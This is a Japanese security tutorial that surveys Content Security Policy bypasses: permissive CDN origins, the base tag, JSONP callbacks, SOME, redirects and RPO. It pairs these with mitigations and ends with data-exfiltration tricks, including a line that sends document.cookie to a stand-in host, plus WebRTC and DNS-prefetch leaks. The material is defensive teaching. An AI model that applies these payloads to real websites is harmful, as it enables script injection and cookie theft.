

# 防御の回避：一般的なCSPバイパス

以前、開発者がウェブサイトの第二の防御線としてコンテンツセキュリティポリシー（CSP）を設定し、攻撃者がHTMLを注入できたとしてもJavaScriptを実行できないようにすることで、攻撃の影響を大幅に軽減できることを説明しました。CSPはスクリプト、スタイル、画像など幅広い要素をカバーしているため、各ウェブサイトのCSP構成は異なる場合があります。自身のウェブサイトのコンテンツに基づいてCSPを設定することが正しい道です。

しかし、CSPが適切に構成されていない場合、それは設定されていないのとほとんど同じです。この記事では、一般的なCSPバイパス方法をいくつか紹介します。

## 安全でないドメインを介したバイパス

ウェブサイトが[unpkg.com](https://unpkg.unpkg.com/)などの公開CDNプラットフォームを使用してJavaScriptを読み込む場合、CSPルールが `script-src https://unpkg.com` と設定されている可能性があります。

以前CSPについて話した際、この構成の問題点について質問しました。ここでその答えを明らかにしましょう。

このアプローチの問題点は、このオリジンからすべてのライブラリを読み込むことができるようになることです。この状況に対処するために、すでに[csp-bypass](https://github.com/CanardMandarin/csp-bypass)というライブラリを作成してアップロードした人がいます。以下に例を示します。

```html
<!DOCTYPE html>
<html>
<head>
  <meta http-equiv="Content-Security-Policy" content="script-src https://unpkg.com/">
</head>
<body>
  <div id=userContent>
    <script src="https://unpkg.com/react@16.7.0/umd/react.production.min.js"></script>
    <script src="https://unpkg.com/csp-bypass@1.0.2/dist/sval-classic.js"></script>
    <br csp="alert(1)">
  </div>
</body>
</html>
```

Reactだけを読み込みたいのですが、完全なCSP構成を書くのが面倒なので、`https://unpkg.com/` だけを記述しました。これにより、攻撃者はCSPをバイパスするために特別に設計された `csp-bypass` ライブラリを読み込むことができます。

この解決策は、これらの公開CDNを一切使用しないか、CSP構成で完全なパスを記述することです。`https://unpkg.com/` だけでなく、`https://unpkg.com/react@16.7.0/` と記述します。

## Base要素を介したバイパス

CSPを構成する際、一般的な方法はnonceを使用して読み込み可能なスクリプトを指定することです。攻撃者がHTMLを注入できたとしても、nonceを知らない限りコードを実行できません。以下に例を示します。

```html
<!DOCTYPE html>
<html>
<head>
  <meta http-equiv="Content-Security-Policy" content="default-src 'none'; script-src 'nonce-abc123';">
</head>
<body>
    <div id=userContent>
      <script src="https://example.com/my.js"></script>
    </div>
    <script nonce=abc123 src="app.js"></script>
</body>
</html>
```

コンソールを開くと、エラーが表示されます。

> Refused to load the script 'https://example.com/my.js' because it violates the following Content Security Policy directive: "script-src 'nonce-abc123'". Note that 'script-src-elem' was not explicitly set, so 'script-src' is used as a fallback.

安全に見えますが、忘れられていたことが1つあります。それは `base-uri` ディレクティブです。このディレクティブはデフォルトにフォールバックしません。[base](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/base)タグは、すべての相対パスの参照場所を変更するために使用されます。例えば：

```html
<!DOCTYPE html>
<html>
<head>
  <meta http-equiv="Content-Security-Policy" content="default-src 'none'; script-src 'nonce-abc123';">
</head>
<body>
    <div id=userContent>
      <base href="https://example.com/">
    </div>
    <script nonce=abc123 src="app.js"></script>
</body>
</html>
```

`<base href="https://example.com/">` が追加されたため、`app.js` を読み込むスクリプトが `https://example.com/app.js` になり、攻撃者が自身のサーバーからスクリプトを読み込むことができるようになります！

このバイパスを防ぐ解決策は、CSPに `base-uri` ルールを追加することです。例えば、`base-uri 'none'` を使用してすべてのbaseタグをブロックします。ほとんどのウェブサイトでは `<base>` を使用する必要がないため、このディレクティブを自信を持って追加できます。

## JSONPを介したバイパス

JSONPは異なるオリジンからデータを取得する方法ですが、個人的にはCORSが成熟する前に登場した古い回避策のように感じています。

通常、ブラウザは同一オリジン以外のウェブページとのやり取りを禁止します。例えば、`https://blog.huli.tw` 内で `fetch('https://example.com')` を実行すると、次のエラーが発生します。

> Access to fetch at 'https://example.com/' from origin 'https://blog.huli.tw' has been blocked by CORS policy: No 'Access-Control-Allow-Origin' header is present on the requested resource. If an opaque response serves your needs, set the request's mode to 'no-cors' to fetch the resource with CORS disabled.

このCORSエラーにより、応答を取得できません。

ただし、`` など、同一オリジンポリシーの対象とならない要素がいくつかあります。結局のところ、画像はさまざまなソースから読み込むことができ、JavaScriptでそのコンテンツにアクセスすることはできないため、問題ありません。

`<script>` 要素も制限されていません。例えば、Google AnalyticsやGoogle Tag Managerを読み込む際、`<script src="https://www.googletagmanager.com/gtag/js?id=UA-XXXXXXXX-X"></script>` と直接記述しますが、制限されたことはありませんよね？

したがって、このようなデータ交換の方法が登場しました。ユーザーデータを提供するAPIがあり、`https://example.com/api/users` のようなパスを提供するとします。JSONを返す代わりに、JavaScriptコードの一部を返します。

```js
setUsers([
  {id: 1, name: 'user01'},
  {id: 2, name: 'user02'}
])
```

その結果、私のウェブページは `setUsers` 関数を使用してデータを受信できます。

```html
<script>
  function setUsers(users) {
    console.log('Users from api:', users)
  }
</script>
<script src="https://example.com/api/users"></script>
```

ただし、このように関数名をハードコーディングするのは不便です。そこで、一般的な形式は `https://example.com/api/users?callback=anyFunctionName` となり、応答は次のようになります。

```js
anyFunctionName([
  {id: 1, name: 'user01'},
  {id: 2, name: 'user02'}
])
```

サーバーが適切に検証せず、任意の文字を渡すことを許可している場合、`https://example.com/api/users?callback=alert(1);console.log` のようなURLを使用できます。この場合、応答は次のようになります。

```js
alert(1);console.log([
  {id: 1, name: 'user01'},
  {id: 2, name: 'user02'}
])
```

応答に目的のコードを正常に挿入しました。このテクニックはCSPをバイパスするために使用できます。

例えば、特定のドメインからのスクリプトを許可し、このドメインにJSONPをサポートするURLがあるとします。それを使用してCSPをバイパスし、コードを実行できます。例えば：

```html
<!DOCTYPE html>
<html>
<head>
  <meta http-equiv="Content-Security-Policy" content="script-src https://www.google.com https://www.gstatic.com">
</head>
<body>
  <div id=userContent>
    <script src="https://example.com"></script>
  </div>
  <script async src="https://www.google.com/recaptcha/api.js"></script>  
  <button class="g-recaptcha" data-sitekey="6LfkWL0eAAAAAPMfrKJF6v6aI-idx30rKs55Lxpw" data-callback='onSubmit'>Submit</button>
</body>
</html>
```

Google reCAPTCHAを使用しているため、関連するスクリプトを含め、CSPに `https://www.google.com` を追加します。そうしないと、`https://www.google.com/recaptcha/api.js` がブロックされます。

しかし偶然にも、このドメインにはJSONPをサポートするURLがあります。

```html
<!DOCTYPE html>
<html>
<head>
  <meta http-equiv="Content-Security-Policy" content="script-src https://www.google.com https://www.gstatic.com">
</head>
<body>
  <div id=userContent>
    <script src="https://www.google.com/complete/search?client=chrome&q=123&jsonp=alert(1)//"></script>
  </div>
</body>
</html>
```

このようにして、攻撃者はこれを使用してCSPをバイパスし、コードを正常に実行できます。

構成中にこの状況を回避するには、いくつかの方法があります。まず、パスをより厳密にします。例えば、`https://www.google.com` の代わりに `https://www.google.com/recaptcha/` と設定してリスクを軽減します（なぜ「完全にリスクを防ぐ」ではなく「リスクを軽減する」と言うのか？後でわかります）。

次に、どのドメインにこのようなJSONP APIが利用可能かを確認します。

[JSONBee](https://github.com/zigoo0/JSONBee)というリポジトリがあり、有名なウェブサイトのJSONP URLを多数収集しています。一部は削除されていますが、依然として参考になります。

以前に言及したCSP Evaluatorも親切に警告してくれます。



## JSONPバイパスの制限

JSONPは強力で任意のコードを実行できると前述しましたが、実際には一部のウェブサイトではJSONPのコールバックパラメータが制限されています。例えば、`a-zA-Z.` のような特定の文字しか許可されていないため、せいぜい関数を呼び出すことしかできず、パラメータを制御することはできません。

この場合、何ができるでしょうか？

[Same Origin Method Execution](https://www.someattack.com/Playground/About)という別の用語があり、SOMEと略されます。これは、関数を呼び出すことしかできないにもかかわらず、同一オリジンウェブサイトのメソッドを実行できるという考え方です。

例えば、クリックすると問題が発生するボタンがページにあるとします。JavaScriptコード `document.body.firstElementChild.nextElementSibling.click` を使用してそれをクリックできます。このコードの文字は許可されているため、JSONPに入れることができます：`?callback=document.body.firstElementChild.nextElementSibling.click`、そして前述のJSONPを使用してコードを実行します。

多くの制限がありますが、依然として使用できる可能性のある攻撃ベクトルです。2022年にOctagon Networksが公開したブログ記事「[Bypass CSP Using WordPress By Abusing Same Origin Method Execution](https://octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution/)」では、著者はSame Origin Method Execution（SOME）を悪用してWordPressに悪意のあるプラグインをインストールしました。

記事では、「プラグインをインストール」ボタンをクリックするために使用できる長いコードスニペットについて言及しています。

```js
window.opener.wpbody.firstElementChild
  .firstElementChild.nextElementSibling.nextElementSibling
  .firstElementChild.nextElementSibling.nextElementSibling
  .nextElementSibling.nextElementSibling.nextElementSibling
  .nextElementSibling.nextElementSibling.firstElementChild
  .nextElementSibling.nextElementSibling.firstElementChild
  .nextElementSibling.firstElementChild.firstElementChild
  .firstElementChild.nextElementSibling.firstElementChild
  .firstElementChild.firstElementChild.click
```

SOMEには多くの制限がありますが、他の悪用方法が見つからない場合は、試してみる価値のある方法です。

## リダイレクトを介したバイパス

CSPがサーバーサイドのリダイレクトに遭遇した場合、どうなりますか？許可されていない異なるオリジンにリダイレクトされる場合、依然として失敗します。

ただし、[CSP仕様4.2.2.3. Paths and Redirects](https://www.w3.org/TR/CSP2/#source-list-paths-and-redirects)の説明によると、異なるパスにリダイレクトされる場合、元の制限をバイパスできます。

以下に例を示します。

```html
<!DOCTYPE html>
<html>
<head>
  <meta http-equiv="Content-Security-Policy" content="script-src http://localhost:5555 https://www.google.com/a/b/c/d">
</head>
<body>
  <div id=userContent>
    <script src="https://https://www.google.com/test"></script>
    <script src="https://https://www.google.com/a/test"></script>
    <script src="http://localhost:5555/301"></script>
  </div>
</body>
</html>
```

CSPが `https://www.google.com/a/b/c/d` に設定されている場合、パスが考慮されるため、`/test` と `/a/test` の両方のスクリプトはCSPによってブロックされます。

ただし、最後の `http://localhost:5555/301` はサーバーサイドで `https://www.google.com/complete/search?client=chrome&q=123&jsonp=alert(1)//` にリダイレクトされます。リダイレクトであるため、パスは考慮されず、スクリプトを読み込むことができるため、パス制限をバイパスできます。

このリダイレクトにより、パスが完全に指定されていても、依然としてバイパスされます。

したがって、最善の解決策は、ウェブサイトにオープンリダイレクトの脆弱性がないこと、およびCSPルールで悪用可能なドメインがないことを保証することです。

## RPO（相対パス上書き）を介したバイパス

パス制限をバイパスするための前述のリダイレクトに加えて、一部のサーバーでは相対パス上書き（RPO）と呼ばれる別のテクニックを使用できます。

例えば、CSPがパス `https://example.com/scripts/react/` を許可している場合、次のようにバイパスできます。

```html
<script src="https://example.com/scripts/react/..%2fangular%2fangular.js"></script>
```

ブラウザは最終的に `https://example.com/scripts/angular/angular.js` を読み込みます。

これは、ブラウザにとって、`https://example.com/scripts/react/` の下にある `..%2fangular%2fangular.js` という名前のファイルを読み込んでいるため、CSPに準拠しているためです。

ただし、特定のサーバーの場合、リクエストを受信するとデコードを実行し、実質的に `https://example.com/scripts/react/../angular/angular.js` というURLを要求することになり、これは `https://example.com/scripts/angular/angular.js` と同等です。

ブラウザとサーバー間のURL解釈のこの不整合を悪用することにより、パスルールをバイパスできます。

解決策は、サーバーサイドで `%2f` を `/` と見なさないようにすることです。これにより、ブラウザとサーバー間の解釈が一致し、この問題はなくなります。

## その他のバイパス手法

前述のテクニックは主にCSPルールのバイパスに焦点を当てています。次に、CSP自体の制限を悪用するバイパス手法について説明します。

例えば、ウェブサイトが厳格なCSPを持っているが、JavaScriptの実行を許可しているとします。

```html
<!DOCTYPE html>
<html>
<head>
  <meta http-equiv="Content-Security-Policy" content="default-src 'none'; script-src 'unsafe-inline';">
</head>
<body>
  <script>
    // 任意のJavaScriptコード
  </script>
</body>
</html>
```

目標は `document.cookie` を盗むことです。これはどのように達成できますか？

Cookieを盗むことは問題ではありません。問題はそれを外部に送信することです。CSPはすべての外部リソースの読み込みをブロックするため、``、`<iframe>`、`fetch()`、さらには `navigator.sendBeacon` であっても、すべてCSPによってブロックされます。

この場合、データを送信する方法がいくつかあります。1つの方法は、`window.location = 'https://example.com?q=' + document.cookie` を使用してページリダイレクトを実行することです。現在、この方法を制限できるCSPルールはありませんが、将来、[navigate-to](https://udn.realityripple.com/docs/Web/HTTP/Headers/Content-Security-Policy/navigate-to)というルールが導入される可能性があります。

2番目の方法はWebRTCを使用することです。コードは次のとおりです（[WebRTC bypass CSP connect-src policies #35](https://github.com/w3c/webrtc-nv-use-cases/issues/35)より）。

```js
var pc = new RTCPeerConnection({
  "iceServers":[
      {"urls":[
        "turn:74.125.140.127:19305?transport=udp"
       ],"username":"_all_your_data_belongs_to_us",
      "credential":"."
    }]
});
pc.createOffer().then((sdp)=>pc.setLocalDescription(sdp));
```

現在、データを送信することを制限する方法はありませんが、将来、[webrtc](https://w3c.github.io/webappsec-csp/#directive-webrtc)というルールが導入される可能性があります。

3番目の方法はDNSプリフェッチです：`<link rel="dns-prefetch" href="https://data.example.com">`。送信したいデータをドメインの一部として扱うことで、DNSクエリを介して送信できます。

以前、[prefetch-src](https://bugs.chromium.org/p/chromium/issues/detail?id=801561)というルールがありましたが、仕様が変更され、現在これらのプリフェッチシリーズは `default-src` に従う必要があります。Chromeはこの機能をバージョン112からしか持っていません：[Resoure Hint "Least Restrictive" CSP](https://chromestatus.com/feature/5553640629075968)。

結論として、`default-src` はすべての外部接続をブロックするように見えますが、そうではありません。データを送信するためのいくつかの魔法のような方法がまだあります。しかし、おそらくいつかCSPルールがより完璧になったとき、完全に漏洩防止のソリューションを実現できるでしょう（いつになるかは不明ですが）。

## まとめ

この記事では、一般的なCSPバイパス方法をいくつか見てきました。かなり多くの種類があることがわかります。

さらに、CSPのドメイン数が増えるにつれて、問題のあるドメインを除外することがより困難になり、追加のリスクが増加します。さらに、サードパーティサービスの使用にも一定のリスクが伴います。前述の公開CDNやGoogleのCSPバイパスなどです。これらに注意する必要があります。

完全に問題のないCSPを作成することは実際には難しく、安全でない慣行を徐々に排除するには時間がかかります。しかし、多くのウェブサイトがまだCSPを持っていないこの時代では、古いことわざが依然として当てはまります。「まずCSPを追加しましょう。問題があっても大丈夫です。後でゆっくり調整できます。」
